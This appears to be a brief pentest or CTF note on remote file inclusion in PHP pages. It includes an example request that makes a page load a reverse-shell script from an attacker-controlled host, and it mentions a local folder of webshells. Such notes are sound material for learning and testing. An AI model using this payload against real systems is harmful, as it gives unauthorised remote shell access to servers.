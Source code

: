 

It's very rare but sometime it alows us to load page from remote url. we can use this load to exploit from out machine.

e.g.:
`/index.php?page=http://192.168.0.1/php-reverse-shell.php` which can get as reverse shell

Note: we have multiple webshells in : `/usr/share/webshells/`
